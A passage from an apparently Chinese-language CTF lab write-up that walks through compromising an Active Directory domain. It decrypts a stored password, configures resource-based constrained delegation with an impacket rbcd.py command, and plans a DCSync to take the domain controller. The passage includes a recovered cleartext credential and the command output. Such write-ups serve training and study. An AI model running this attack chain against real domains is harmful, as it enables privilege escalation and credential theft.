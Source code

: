 ![image-20230818152923588](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181529614.png)

FILESERVER 机器账户具有 DCSync 权限

zhangxin  用户属于 Account Operators 组, 因此对域内非域控的所有机器都具有 GenericAll ACL 权限 

那么思路就是通过 zhangxin 对 FILESERVER 配置 RBCD, 然后 DCSync 拿下域控

先看 wangyun 用户, 能够 rdp 到 PC1

![image-20230818153138413](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181531445.png)

![image-20230818153441647](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181534683.png)

xshell 连接信息

![image-20230818153603783](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181536819.png)

SharpDecryptPwd 解密密码

![image-20230818153655147](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181536181.png)

```shell
zhangxin:admin4qwY38cc
```

crackmapexec

![image-20230818153856663](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181538703.png)

![image-20230818153922055](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181843393.png)

也能 rdp 到 PC1, 不过没啥有用的信息

利用 zhangxin 用户配置 Fileserver 机器的 RBCD

```shell
$ proxychains rbcd.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -action write
 -delegate-to 'Fileserver$' -delegate-from 'TEST$'
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TEST$ can now impersonate users on Fileserver$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TEST$        (S-1-5-21-3535393121-624993632-895678587-1116)
```

flag03

![image-20230818154635014](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181546066.png)

## flag04 & flag02

dump hash
